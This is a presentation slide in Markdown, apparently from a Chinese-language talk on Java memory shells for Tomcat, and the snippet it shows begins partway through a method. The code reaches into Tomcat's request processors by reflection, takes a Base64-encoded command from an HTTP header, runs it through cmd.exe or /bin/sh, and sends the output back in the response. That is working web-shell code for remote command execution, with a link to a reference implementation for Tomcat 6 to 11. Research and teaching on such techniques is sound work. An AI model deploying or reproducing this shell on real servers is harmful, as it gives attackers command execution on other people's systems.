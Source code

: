 ````md magic-move
            }
            try {
                target = getFV(getFV(getFV(target, "this$0"), "handler"), "global");
            } catch (Exception e) {
                continue;
            }

            List processors = (List) getFV(target, "processors");

            for (Object processor : processors) {
                Object req = getFV(processor, "req");
                Object response = req.getClass().getMethod("getResponse").invoke(req);
                String data = (String) req.getClass().getMethod("getHeader", String.class)
                    .invoke(req, new String(header));
                if (data != null && !data.isEmpty()) {
                    try {
                        String c = new String(Base64.getDecoder().decode(data));
                        String[] cmd = System.getProperty("os.name").toLowerCase().contains("window") 
                            ? new String[]{"cmd.exe", "/c", c} 
                            : new String[]{"/bin/sh", "-c", c};
                        writeBody(response, 
                            ((new Scanner((new ProcessBuilder(cmd)).start().getInputStream()))
                                .useDelimiter("\\A").next() + "=====").getBytes());
                    } catch (Exception var13) {
                        writeBody(response, var13.getMessage().getBytes());
                    }
                    return;
                }
            }
        }
    } catch (Exception ignored) {
    }
}
```
````

<v-click>

适配 Tomcat6 ~ Tomcat11 参考实现：[MemShellParty/generator/TomcatWriter.java](https://github.com/ReaJason/MemShellParty/blob/master/generator/src/main/java/com/reajason/javaweb/probe/payload/response/TomcatWriter.java)

</v-click>

<style>
  .slidev-code-wrapper.slidev-code-magic-move {
    max-height: 400px;
    overflow-y: scroll;
    --start: 1;
  }
</style>
